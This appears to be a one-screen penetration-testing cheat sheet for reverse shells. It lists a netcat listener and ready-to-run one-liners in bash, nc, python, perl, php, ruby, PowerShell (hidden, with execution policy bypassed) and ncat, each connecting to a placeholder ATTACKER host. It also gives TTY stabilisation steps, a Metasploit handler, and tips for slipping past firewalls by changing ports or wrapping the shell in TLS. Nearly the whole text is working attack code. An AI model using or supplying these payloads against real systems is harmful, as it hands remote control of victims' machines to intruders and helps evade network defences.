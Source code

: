 ## Minimal cheat sheet (one-screen flow)

```
# Listener (attacker)
rlwrap -cAr nc -lvnp 4444

# Linux targets
bash -c 'bash -i >& /dev/tcp/ATTACKER/4444 0>&1'
nc ATTACKER 4444 -e /bin/sh                # if nc supports -e
rm -f /tmp/f; mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | nc ATTACKER 4444 > /tmp/f
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
perl -e 'use Socket;$i="ATTACKER";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
php -r '$s=fsockopen("ATTACKER",4444);$p=proc_open("/bin/sh -i",[0=>$s,1=>$s,2=>$s],$pipes);'
ruby -rsocket -e 'f=TCPSocket.open("ATTACKER",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# TTY upgrade
python -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm
# Ctrl+Z then locally:
stty raw -echo; fg; reset; stty rows 40 cols 120

# Windows target
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$a='ATTACKER';$p=4444;$c=New-Object System.Net.Sockets.TCPClient($a,$p);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1 | Out-String);$sb2=$sb+'PS ' + (pwd).Path + '> ';$o=([Text.Encoding]::ASCII).GetBytes($sb2);$s.Write($o,0,$o.Length)}"
ncat.exe ATTACKER 4444 -e cmd.exe

# Metasploit handler (optional)
msfconsole -q -x "use exploit/multi/handler; set payload linux/x64/shell_reverse_tcp; set LHOST ATTACKER; set LPORT 4444; run -j"
```

## Summary
- Reverse shells let the target initiate an outbound connection to your listener—ideal behind NAT/firewalls.
- Start with a reliable listener, pick an egress-friendly port, and choose the shortest working one-liner based on available interpreters.
- For Linux, bash /dev/tcp, python3, and nc-mkfifo are the most dependable. On Windows, a PowerShell TCP loop is universally available.
- Immediately upgrade/stabilize your TTY (pty.spawn, stty, or socat) for a usable session.
- If blocked, switch ports, interpreter, or wrap in TLS (ncat --ssl), and consider Metasploit handlers for convenience.